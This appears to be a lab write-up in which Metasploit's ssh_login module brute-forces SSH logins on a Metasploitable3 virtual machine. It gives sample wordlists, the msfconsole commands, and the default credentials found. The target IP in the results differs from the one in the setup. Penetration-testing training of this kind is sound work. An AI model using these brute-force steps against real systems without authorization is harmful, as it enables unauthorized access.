

# Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.
The objective of this task is to use Metasploit's ssh_login (`auxiliary/scanner/ssh/ssh_login`) module to perform a brute-force attack on the SSH service of a vulnerable machine (the Metasploitable3 target machine). The goal is to discover valid username and password combinations that allow unauthorized access to the system.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files


use ``` nano [name of the text file].txt ``` to edit the content of the file, add random usernames and passwords.

### users.txt content

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt contant
```text
password
123456
toor
vagrant
aishapass
testpass
```


## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```


## Step 5: Run the Attack
```text
run
```

## Results:


### The Metasploit ssh_login module successfully brute-forced SSH credentials on the Metasploitable3 target.

* Target IP: 192.168.64.7

* SSH Service was accessible on port 22

- Valid credentials found:
  - **Username:** `vagrant`
  - **Password:** `vagrant`


